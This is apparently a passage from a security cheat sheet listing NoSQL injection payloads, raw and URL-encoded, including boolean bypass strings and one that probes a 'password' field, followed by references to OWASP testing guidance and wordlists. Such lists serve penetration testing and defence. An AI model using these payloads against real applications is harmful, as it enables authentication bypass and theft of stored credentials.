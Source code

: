 ```
test%7C%7C1%3D%3D1%5Cu0000

test||'1==1
test%7C%7C%271%3D%3D1

test||'1'=='1'
test%7C%7C%271%27%3D%3D%271%27

test||'1'=='1
test%7C%7C%271%27%3D%3D%271

test'||1||'
test%27%7c%7c%31%7c%7c%27

<!-- Find specific fields e.g. 'password' -->
admin' && this.password!='
admin'+%26%26+this.password!%3d'
```
## References

* [Les NOSQL injections Classique et Blind: Never trust user input - Geluchat](https://www.dailysecurity.fr/nosql-injections-classique-blind/)
* [Testing for NoSQL injection - OWASP/WSTG](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.6-Testing_for_NoSQL_Injection)
* [NoSQL injection wordlists - cr0hn](https://github.com/cr0hn/nosqlinjection_wordlists)
* [NoSQL Injection in MongoDB - JUL 17, 2016 - Zanon](https://zanon.io/posts/nosql-injection-in-mongodb)
* [Burp-NoSQLiScanner](https://github.com/matrix/Burp-NoSQLiScanner/blob/main/src/burp/BurpExtender.java)
